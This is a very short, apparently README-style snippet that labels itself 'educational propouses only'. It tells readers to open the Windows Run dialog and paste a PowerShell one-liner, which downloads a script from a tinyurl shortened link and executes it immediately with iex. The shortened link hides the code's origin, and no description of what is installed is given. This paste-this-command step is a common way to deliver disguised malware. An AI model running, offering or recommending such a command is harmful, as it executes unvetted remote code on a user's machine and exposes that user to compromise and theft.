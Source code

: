 educational propouses only.

For install:
Win + R and paste this:

```powershell -c "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```
